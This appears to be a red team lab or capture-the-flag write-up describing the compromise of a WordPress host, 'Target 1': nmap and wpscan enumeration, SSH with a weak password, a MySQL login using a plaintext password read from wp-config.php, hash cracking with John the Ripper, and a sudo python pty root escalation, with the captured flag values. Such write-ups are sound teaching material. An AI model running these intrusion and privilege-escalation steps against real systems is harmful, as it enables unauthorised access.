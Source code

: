 # Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110 -sV -O
  PORT    SERVICE
  22/tcp  ssh
  80/tcp  http
  111/tcp rpcbind
  139/tcp netbios-ssn
  445/tcp netbios-ssn
  OS details: Linux 3.2 - 4.9
```

![nmapImage](/Images/Target1_nmapScan.png)

This scan identifies the services below as potential points of entry:

- Target 1
  - ssh (OpenSSH/6.7p1)
  - http (Apache/2.4.10)

The following vulnerabilities were identified on each target:

- Target 1
  - Wordpress Enumeration (MILD)
  - Weak Password (MILD)
  - OpenSSH (SEVERE)
  - Escalation to root (SEVERE)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1

  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}

    - Found the flag when inspecting HTML file of the services page on the RavenSecurity Website
      ![flag1](/Images/flag1_RavenWebsite.png)

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}

    - wpscan/Weak Password/openSSH

      - Used wpscan to find accounts on the website

      ```bash
        wpscan --url http://192.168.1.110/wordpress --eu
      ```

      - SSHed into target1 through michaels account (used weak password.)

      ```bash
        ssh michael@192.168.1.110
      ```

      - Navigated to /var/www and found flag2

        ![flag2](/Images/flag2_michaelwww.png)

  - `flag3`: {afc01ab56b50591e7dccf93122770cd2}

    - Navigated to /var/www/html and found the wp-config.php file.
    - upon reading the file I found the MySQLDBPassword.
      cat wp-config.php
      ![MySQL_Password](/Images/MySQL_Password.png)
    - Then Logged into the mysql database using found login.

    ```bash
      mysql -h localhost -u root -pR@v3nSecurity
    ```

    ![Mysql_Login](/Images/mySQL_get_in_and_show_databases.PNG)

    - Then accessed the wordpress database and used a sql request.

    ```sql
    SELECT * From wp_posts;
    ```

    in order to find the flag within the table.
    ![flag3](/Images/flag3.png)

  - `flag4`: {715dea6c055b9fe3337544932f2941ce}

    - Escalation to root/openSSH

      - Found the hashed password for steven within the wp_users table.
        ![hashed_password](/Images/MYSQL_get_hashes.PNG)
      - Then used John the ripper to crack the hashed password (pink84).
        ![CrackedHash](/Images/use_John_to_crack_steven.png)
      - Then sshed into target1 using stevens account.
      - Used a python script to get escalate to root privilege.
        ```bash
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
        ```
        ![EscalationToRoot](/Images/steven_getshell_and_Root.PNG)
      - Then used cat to read flag4

        ![flag4](/Images/flag4Command.PNG)
